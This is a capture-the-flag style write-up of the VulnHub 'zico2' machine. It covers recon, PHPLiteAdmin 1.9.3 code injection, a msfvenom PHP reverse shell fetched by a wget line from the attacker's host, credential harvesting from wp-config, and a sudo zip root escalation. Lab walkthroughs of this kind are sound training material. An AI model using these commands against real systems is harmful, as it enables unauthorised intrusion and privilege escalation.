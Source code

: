 +++
title = "zico2"
slug = "zico2"
[taxonomies]
categories=["vulnhub"]
tags=["vulnerable-machine"]
+++

# zico2

## Recon:

Start off with netdiscover to find the host:

{% highlight bash %}
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 6 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 360
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.171.1   00:50:56:c0:00:01      1      60  VMware, Inc.
 192.168.171.135 00:0c:29:a2:b5:1b      2     120  VMware, Inc.
 192.168.171.254 00:50:56:e5:61:61      3     180  VMware, Inc.
{% endhighlight %}

Next run nmap and find ports 22, 80, 111 open.

Time to run gobuster using wordlists generated from dirbuster and seclists:

{% highlight bash %}
screen -S gobuster go run ~/go/src/gobuster -w wordlistzico.txt -u http://192.168.171.135

// (Status: 200)
//js/ (Status: 200)
//css/ (Status: 200)
//?q=user/register/ (Status: 200)
//?q=user/login/ (Status: 200)
//?q=search/ (Status: 200)
//?q=user/password/ (Status: 200)
//?q=comment/reply/ (Status: 200)
//?q=node/add/ (Status: 200)
//?q=admin/ (Status: 200)
//index (Status: 200)
//img/ (Status: 200)
//?q=user/logout/ (Status: 200)
//?q=filter/tips/ (Status: 200)
//?level=12 (Status: 200)
//? (Status: 200)
/?&what= (Status: 200)
//?q=contact/ (Status: 200)
//?q=logout/ (Status: 200)
//?q=* (Status: 200)
//?msk (Status: 200)
//?favorites (Status: 200)
//?* (Status: 200)
//view.php (Status: 200)
/js (Status: 301)
/css (Status: 301)
/img (Status: 301)
/tools (Status: 200)
/index (Status: 200)
/view (Status: 200)
/dbadmin (Status: 301)
/vendor (Status: 301)
/package (Status: 200)
/LICENSE (Status: 200)
/img (Status: 301)
/index (Status: 200)
/package (Status: 200)
/view (Status: 200)
/tools (Status: 200)
{% endhighlight %}

The dbadmin loads up a sql web admin, try admin as the pass and login successfully.

Now to lookup this version of phpliteadmin, 1.9.3

{% highlight bash %}
searchsploit phpliteadmin

PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | exploits/php/webapps/24044.txt
{% endhighlight %}

Looks like it worked after following steps from the exploit description and we have a way to get a reverse shell going.

Now to generate a PHP meterpreter script:

{% highlight bash %}
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.171.136 LPORT=4444 R > shell.php
{% endhighlight %}

Now to get a shell onto the box by adding a malicious DB column:

{% highlight php %}
<?php system("wget http://192.168.171.136:8000/shell.php -O /usr/databases/shell.php");?>
{% endhighlight %}

Now get meterpreter running:

{% highlight bash %}
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.171.136
set LPORT 4444
exploit
{% endhighlight %}

Then hit the page in the browser.

After some grepping I found a WordPress install, check the config for user/passwords:

{% highlight bash %}

cat /home/zico/wordpress/wp-config | grep -i 'user' && cat /home/zico/wordpress | grep -i 'pass'

{% endhighlight %}

Try SSHing with the user/pass and succeed, next run LinEnum and linuxprivchecker.py, but none of the exploits reported seem to work, after a lot of head baning, check out the allowed/banned sudo commands this user has:

{% highlight bash %}
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip

sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-comand="sh -c /bin/bash"

{% endhighlight %}

Get flag:

{% highlight bash %}

root@zico:~# cd /root/
root@zico:/root# ls
flag.txt
root@zico:/root# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#

{% endhighlight %}
